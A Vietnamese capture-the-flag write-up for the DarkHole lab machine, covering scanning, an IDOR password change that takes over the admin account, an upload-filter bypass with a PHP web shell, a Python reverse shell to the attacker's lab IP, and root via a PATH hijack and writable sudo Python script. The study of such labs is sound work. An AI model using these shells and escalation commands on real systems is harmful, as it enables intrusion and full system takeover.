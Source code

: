 ## Step 1
Dùng netdiscover để quét ip của máy victim ->192.168.77.251

![image](https://user-images.githubusercontent.com/97771705/224999146-d497a7b0-aa8c-44f6-afe7-c85b530bd6be.png)

Dùng nmap để quét các port tồn tại

![image](https://user-images.githubusercontent.com/97771705/224999373-f0a6423c-cfef-4f3c-8a66-f9a8722a765d.png)

Truy cập vào web darkhole

![image](https://user-images.githubusercontent.com/97771705/224999560-99cd293f-10cf-49ee-843a-a0a54dacaf31.png)

Sử dụng dirsearch, tìm thấy khá nhiều trang thú vị

![image](https://user-images.githubusercontent.com/97771705/225000326-d0af62cb-bf0d-4e34-82d0-019fa00e48e1.png)

Trang config có database.php!! -> truy cập thử nhưng không được :(

![image](https://user-images.githubusercontent.com/97771705/225001082-87b52dc9-9324-49e6-90b7-c5d8c384e3a9.png)

Quay lại trang register và login. Thử IDOR nhưng đã bị chặn

![image](https://user-images.githubusercontent.com/97771705/225001864-2588ea8b-0426-4e95-9922-5c632c07a6cb.png)

![image](https://user-images.githubusercontent.com/97771705/225001912-6d662cb8-a628-4339-beef-5d0f605ec881.png)

Thử change password. Tại burp sửa đổi sang id = 1 vẫn thành công

![image](https://user-images.githubusercontent.com/97771705/225002475-75014042-364e-436e-a72c-282b22621f71.png)

Đoán id=1 chính là admin, đăng nhập thử admin/456 -> vào được trang admin

![image](https://user-images.githubusercontent.com/97771705/225002725-e7d84d51-df93-4dcd-8154-92d8946a66c1.png)

## Step 2
Chức năng upload file chỉ cho phép upload định dạng jpg, png, gif

![image](https://user-images.githubusercontent.com/97771705/225003170-d488cebb-dd45-455f-8528-49504a606f44.png)

Tạo 1 file simple backdoor như sau 
```
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

Lưu nó lại với tên backdoor.txt

Thử upload file và nhờ burp sửa đuôi sang php4,php5.... -> chỉ có đuôi phtml là có thể thực thi được php 

![image](https://user-images.githubusercontent.com/97771705/225006690-595521b6-c1bd-4982-8377-65e21d6ad5f9.png)

Ngoài ra file .phar cũng xài được :)

![image](https://user-images.githubusercontent.com/97771705/225007577-ea4ea1e5-0806-427f-a501-e3026a6ab651.png)

Bắt đầu reverse shell : Sử dụng payload kiếm được trên https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

> python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.77.128",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

Máy parrot nhập command nc -nlvp 4444, sau đó nhaapm reverse shell trên lên url

![image](https://user-images.githubusercontent.com/97771705/225012793-9b45c432-dc42-4734-a754-8b7606677afd.png)


![image](https://user-images.githubusercontent.com/97771705/225012728-786a9ddf-160b-40e5-b089-e14d2d70cdf4.png)

Kết quả: 

![image](https://user-images.githubusercontent.com/97771705/225013005-e82b7184-424c-4aaa-a84b-02c342d90d31.png)

![image](https://user-images.githubusercontent.com/97771705/225692756-136d2f24-a5e0-42a9-a03e-2c3ea2d2abef.png)

Vào thư mục john

![image](https://user-images.githubusercontent.com/97771705/225692527-af3ad033-cce8-41e5-926c-e11564a292a2.png)

Thư mục .ssh ta có quyền read và write, nhưng không cho ta đọc id_rsa

![image](https://user-images.githubusercontent.com/97771705/225693957-356deb89-fc99-4e11-af7b-51b3c21c5064.png)

Để ý thấy rằng file toto có set quyền SUID, thực thi file này thì ta thấy chương trình run command id với userid là 1001(john), tức là chương trình chạy command id với quyền của john

![image](https://user-images.githubusercontent.com/97771705/225694430-92798b9e-d0a0-4a55-83c1-db75aa299fd8.png)

Ta ghi /bin/bash vào file id tự tạo ở tmp và chèn thư mục tmp lên đầu $PATH. Khi thực thi 1 command trong Linux, hệ thống sẽ tìm kiếm lệnh trong các đường dẫn được khai báo trong biến môi trường PATH, theo thứ tự từ trái sang phải. Nếu tìm thấy lệnh ở nhiều đường dẫn trong biến môi trường PATH thì đường dẫn nào tìm thấy trước từ trái sang phải sẽ được ưu tiên hơn.

> echo '/bin/bash' > /tmp/id; chmod +x /tmp/id; export PATH=/tmp:$PATH

Flag đầu :)

![image](https://user-images.githubusercontent.com/97771705/225697086-107a6060-f30b-4933-ab69-546d93d8afe9.png)

## Step 3
Trong folder john còn 1 file password. Dùng  lệnh sudo -l để kiểm tra danh sách các quyền hạn mà user có thể thực thi bằng sudo trên hệ thống

![image](https://user-images.githubusercontent.com/97771705/225698221-caced74f-a931-4d3d-aa69-96854154a3aa.png)

Có thể thực thi file python3 bằng quyền root :) . Hơn nữa với file file.py ta có quyền write :)

Write vào file rồi run là xong rồi

> echo 'import os;os.system("/bin/bash")' > file.py

> sudo /usr/bin/python3 /home/john/file.py

![image](https://user-images.githubusercontent.com/97771705/225699477-b8795e11-45a7-4538-8df9-acf17067118c.png)



